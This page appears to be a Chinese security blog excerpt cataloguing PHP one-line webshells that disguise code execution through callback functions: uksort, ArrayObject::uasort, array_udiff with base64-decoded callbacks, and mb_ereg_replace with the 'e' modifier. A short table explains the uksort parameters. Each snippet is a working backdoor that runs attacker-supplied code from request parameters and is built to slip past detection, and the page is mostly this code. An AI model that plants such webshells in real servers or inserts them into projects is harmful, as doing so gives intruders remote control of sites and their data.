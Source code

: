 ![img](https://klionsec.github.io/img/array_filter%20shell.png)

```php
<?php 
$fun = $_REQUEST['fun'];
$arr = array('xlion'=>1,$_REQUEST['req']=>2);
uksort($arr,$fun);
?>
```

**PHP uksort() 函数**

 uksort(*array,myfunction*);

| 参数         | 描述                                                         |
| ------------ | ------------------------------------------------------------ |
| *array*      | 必需。规定要排序的数组。                                     |
| *myfunction* | 可选。一个定义了可调用比较函数的字符串。如果第一个参数 <, =, > 第二个参数，相应地比较函数必须返回一个 <, =, > 0 的整数。 |

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fythm5md8rj20je0av3yp.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fythmpmpytj21240dg40e.jpg)

![img](https://klionsec.github.io/img/uksort%20spec.png)

```php
<?php 
$arr = new ArrayObject(array('xlion', $_REQUEST['req']));
$arr->uasort(base64_decode($_POST['fun']));
?>
```

![img](https://klionsec.github.io/img/ArrayObject%20sepc.png)

```PHP
<?php 
	$fun = base64_decode($_REQUEST['fun']);
	$arr = array(base64_decode($_POST['code']));
	$arr2 = array(1);
	array_udiff($arr,$arr2,$fun);
?>
```

![img](https://klionsec.github.io/img/array_udiff%20spec.png)

```php
<?php 
mb_ereg_replace('.*', $_REQUEST['req'], '', 'e');
?>
//mb_ereg_replace - 用多字节支持替换正则表达式
```

![img](https://klionsec.github.io/img/mb_ereg_replace%20spec.png)
